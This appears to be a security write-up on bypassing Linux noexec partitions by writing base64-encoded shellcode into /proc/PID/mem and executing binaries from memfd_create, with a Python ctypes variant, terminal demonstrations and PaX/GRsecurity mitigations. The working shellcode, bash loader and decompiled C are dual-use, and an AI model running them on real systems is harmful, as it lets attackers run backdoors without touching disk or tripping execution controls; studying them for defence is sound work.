

## noexec bypass

Userland execution without touching the disk has been existed in the hacking community for quite some time. The first paper on Userland exec was authored by the grugq in 2004. Since then, this technique has continuously evolved in various forms within the hacker community. A recent [write-up](https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries) by THC (The Hacker's Choice, an 0ldsk00l hacker community) "Bypassing noexec and executing arbitrary binaries" has taken this concept to a new level by simplifying the process of writing PoC/exploits that bypass partitions with the noexec flag. The root cause of this exploit vector lies in a change made to the Linux kernel in 2012, which [removed the restrictions on writing to /proc/PID/mem](https://lwn.net/Articles/476947/). THC's write-up provides a detailed explanation of how the [PoC](https://github.com/hackerschoice/memexec) work.

### Set up a RW partition with noexec flag
```
dd if=/dev/zero of=ro-partition.img bs=1M count=100
mkfs.ext4 ro-partition.img 
mkdir /mnt/ro-part
mount -o loop,noexec ro-partition.img /mnt/ro-part/
cd /mnt/ro-part/
git clone https://github.com/hackerschoice/memexec.git
```
### Build the binary:
```
nasm -f elf64 -o memexec-bash-arg-env.o memexec-bash-arg-env.nasm && ld memexec-bash-arg-env.o
```

### Generate shellcode and encode it as base64:
```
ved@debian-vtest:/mnt/ro-part/memexec$ objdump -d a.out |grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-7 -d' ' | tr -s ' '|tr '\t' ' ' | sed 's/ //g' | xxd -r -p | base64 -w 0
SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==
```

## Use the base64 code and run it on Bash:
```
ved@debian-vtest:/mnt/ro-part/memexec$ memexec() { bash -c 'cd /proc/$$;exec 4>mem;base64 -d<<<SIngTTHSSIM4AHUQSIN4CCF1CUiD6AhJicLrBkiDwAjr5EyJ0E0x200x5EiDOAB1EEmJw0mD6whIg8AISYnE6wZIg+gI6+RMidhNMe1IMf9IixhIOft0JUiLC0iB4f///wBIgfktLQAAdQlJicZIiXj46wlIg+gISP/H69NIieVIgewSBAAASLhrZXJuZWwAAGoAULg/AQAASInnSDH2DwVJicC4AAAAAL8AAAAASInmugAEAAAPBUiJwkiD+gB+D7gBAAAATInHSInmDwXr1LhCAQAATInHagBIieZMifJIMclNMclNieJBuAAQAAAPBbg8AAAAv2MAAAAPBQ==|dd bs=1 seek=$[$(cat syscall|cut -f9 -d" ")]>&4' "$@"; }
```

### Show time:
```
ved@debian-vtest:/mnt/ro-part/memexec$ cp /bin/id .
ved@debian-vtest:/mnt/ro-part/memexec$ ./id
-bash: ./id: Permission denied
ved@debian-vtest:/mnt/ro-part/memexec$ cat id |  memexec -- 
253+0 records in
253+0 records out
253 bytes copied, 0.000326824 s, 774 kB/s
uid=1000(ved) gid=1000(ved) groups=1000(ved),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

### C code based on help of decompilers
Base on the [output of decompilers](https://dogbolt.org/?id=47cc5eab-f919-4eea-a6f6-adabc90a1875#Hex-Rays=17). The C code is roughly look like:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <fcntl.h>

#define BUFFER_SIZE 1024
char buffer2[BUFFER_SIZE] = {0};

int main(int argc, char *argv[], char *envp[]) {
    // Find the start of the stack
    char **env = envp;
    char **arg = argv;
    char *last_arg = NULL;
    char *first_env = NULL;

    // Find the last argument and the first environment variable
    while (*arg) {
        last_arg = *arg;
        arg++;
    }
    first_env = env[0];

    // Create a memory file descriptor
    int memfd = memfd_create("kernel", 0);

    if (memfd < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
	}

    // Create a buffer for reading input
    char *buffer = buffer2;
    if (!buffer) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    ssize_t bytes_read;
    while ((bytes_read = syscall (SYS_read, STDIN_FILENO, buffer, BUFFER_SIZE)) > 0) {
        // Write data to the memory file descriptor
        if ( syscall(SYS_write, memfd, buffer, bytes_read) != bytes_read) {
        	syscall(SYS_exit, EXIT_FAILURE);
        }
    }

    if (bytes_read < 0) {
	    syscall(SYS_exit, EXIT_FAILURE);
    }

    // Prepare to execveat the program in memfd
    char *empty_path = ""; // AT_EMPTY_PATH
    char **new_argv = argv; // Use the original argv
    char **new_envp = envp; // Use the original envp

    // Execute the program in the memory file descriptor
    syscall (SYS_execveat, memfd, empty_path, new_argv, new_envp, 0);

    // If execveat fails
     syscall(SYS_exit, EXIT_FAILURE);
}
```
## Mitigation
PaX/GRsecurity is the only solution against this bypass technique. The vanilla Linux kernel may have the solution in the future.

| Exploit method | Mitigation |
|:-------------:|:-----------------------:|
| Overwrite /proc/*/mem | PaX/GRsecurity enabled /proc/*/mem restriction since the beginning (2012?) |
| memfd_* execution | 1) PaX/GRsecurity RBAC (doesn't require any policy) treat it as SHM_EXEC 2) PaX/GRsecurity TPE |

Enable TPE ([Trusted Path Execution](https://en.wikibooks.org/wiki/Grsecurity/Appendix/Grsecurity_and_PaX_Configuration_Options#Trusted_Path_Execution_(TPE))) w/o RBAC:
```
ved@debian-vtest:/mnt/ro-part/memexec$ groupadd -g 1005 grsec_tpe
ved@debian-vtest:/mnt/ro-part/memexec$ usermod -aG 1005 ved
```

Have fun:
```
ved@debian-vtest:/mnt/ro-part/memexec$ source memexec-perl.sh
ved@debian-vtest:/mnt/ro-part/memexec$ cat /bin/ls | TIME_STYLE=+%s memexec -lah
==> RESULTs
[   59.871267] grsec: denied untrusted exec (due to being in untrusted group and file in non-root-owned directory) of / by /[perl:1426] uid/euid:1000/1000 gid/egid:1000/1000, parent /usr/bin/bash[bash:1425] uid/euid:1000/1000 gid/egid:1000/1000

ved@debian-vtest:/mnt/ro-part/memexec$ deluser ved grsec_tpe
```

Enable [RBAC](https://grsecurity.net/featureset/rbac) w/o TPE:
```
ved@debian-vtest:/mnt/ro-part/memexec$ gradm -E
ved@debian-vtest:/mnt/ro-part/memexec$ source memexec-perl.sh
ved@debian-vtest:/mnt/ro-part/memexec$ cat /bin/ls | TIME_STYLE=+%s memexec -lah
==> RESULTs
[  400.930022] grsec: (default:D:/) denied execution of / by /usr/bin/perl[perl:2168] uid/euid:1000/1000 gid/egid:1000/1000, parent /usr/bin/bash[bash:2167] uid/euid:1000/1000 gid/egid:1000/1000
```

## Extra bonus from the legacy of 0ldsk00l hackers
Let's say THC's approach as suitable for binary/backdoor execution. There's another [intriguing method](https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/) for bypassing the noexec restriction that primarily benefits exploit writers (s0rry, pentesters! This is not for you). GRHack introduced a technique to circumvent noexec by leveraging a feature in Python called Foreign Function Interface (FFI). This feature enables Python developers to directly invoke any C function from a shared object. You can bypass the noexec limitation by porting the exploit to Python. It's important to note that this approach specifically affects GNU/Linux systems, as [OpenBSD does not allow the loading of shared objects in noexec partitions](https://github.com/huku-/research/wiki/Sandboxing-and-isolation#212-mount-options). The PoC (run-ls.py) is simple as:

```
import ctypes

libc = ctypes.CDLL('libc.so.6')

system = libc.system
system.argtypes = [ctypes.c_char_p]
system.restype = ctypes.c_int

command = b"ls -l"
result = system(command)

print("Return code:", result)
```

Test the PoC in noexec partition:
```
ved@debian-vtest:/mnt/ro-part/memexec$ python3 run-ls.py 
total 208
-rwxr-xr-x 1 ved ved   5416 Oct 31 12:42 a.out
-rw-r--r-- 1 ved ved  43808 Oct 31 12:45 id
-rwxr-xr-x 1 ved ved 138856 Oct 28 19:36 ls
-rw-r--r-- 1 ved ved   3611 Oct 28 19:33 memexec-bash-arg-env.nasm
-rw-r--r-- 1 ved ved   1216 Oct 31 12:42 memexec-bash-arg-env.o
-rw-r--r-- 1 ved ved   1744 Oct 28 19:33 memexec-bash.nasm
-rw-r--r-- 1 ved ved    544 Oct 28 19:33 memexec-bash.sh
-rw-r--r-- 1 ved ved   1481 Oct 28 19:33 memexec.nasm
-rw-r--r-- 1 ved ved    736 Oct 28 19:39 memexec.o
-rw-r--r-- 1 ved ved    192 Oct 28 19:33 memexec-perl.sh
-rw-r--r-- 1 ved ved   1671 Oct 28 19:33 memexec.php
-rw-r--r-- 1 ved ved   1696 Oct 28 19:44 memexec-shell.c
-rw-r--r-- 1 ved ved   3963 Oct 28 19:33 README.md
-rw-r--r-- 1 ved ved    211 Nov  3 23:07 run-ls.py
-rw-r--r-- 1 ved ved    340 Oct 30 17:20 shellcode_base64.txt
-rw-r--r-- 1 ved ved    736 Oct 30 16:43 test.o
-rw-r--r-- 1 ved ved   1442 Oct 30 16:43 test.s
Return code: 0
```
## userland-exec (C version) for x86 and arm64 (Updated: Jan 16 2025)
[userland-exec](https://github.com/hardenedlinux/userland-exec) is a proof-of-concept (PoC) implementation that bypasses the noexec partition through userland execution. This PoC demonstrates how to bypass W ^ X, mprotect, and SELinux's execmem, providing a level of functionality comparable to THC's implementation while also supporting arm64. 



To [mitigate the risks](https://github.com/hardenedlinux/grsecurity-101-tutorials/blob/master/threat_model/userland_exec_noexec_bypass.md#mitigation) associated with userland-exec, PaX/GRsecurity's TPE and RBAC have been effective in preventing THC's PoC and can similarly protect against userland-exec.

## Wrap-up
The security measures of embedded systems heavily rely on Mandatory Access Control (MAC) mechanisms like SELinux and AppArmor, as well as partitioning strategies such as read-only (RO) execution partitions and read-write (RW) partitions with no execution permissions. However, recent research has simplified bypass techniques, making it easier to bypass those security measures. As a result, embedded security engineers may need to rework their threat models. The key takeaway is that truly understanding how the system works and conducting thorough risk analyses based on exploitation techniques/vectors is far more challenging than blindly trust that pulling a few strings could get you the silver bullet. Either you are dumb or numb, the desert of the real won't change till you figure out how to dance with it. Simply put, runtime mitigation is inevitable.

## Reference
* Bypassing noexec and executing arbitrary binaries https://iq.thc.org/bypassing-noexec-and-executing-arbitrary-binaries
* A /proc/PID/mem vulnerability https://lwn.net/Articles/476947/
* Execute ELF files without dropping them on disk https://github.com/nnsee/fileless-elf-exec
* userland exec for Linux x86_64 https://github.com/bediger4000/userlandexec
* The Design and Implementation of Userland Exec https://grugq.github.io/docs/ul_exec.txt
* Python in noexec-land https://web.archive.org/web/20100720104659/http://dp.grhack.net/2009/09/17/python-in-noexec-land/
* PaX/GRsecurity TPE: https://en.wikibooks.org/wiki/Grsecurity/Appendix/Grsecurity_and_PaX_Configuration_Options#Trusted_Path_Execution_(TPE)
* PaX/GRsecurity RBAC: https://grsecurity.net/featureset/rbac
* userland-exec for x86_64 and arm64: https://github.com/hardenedlinux/userland-exec
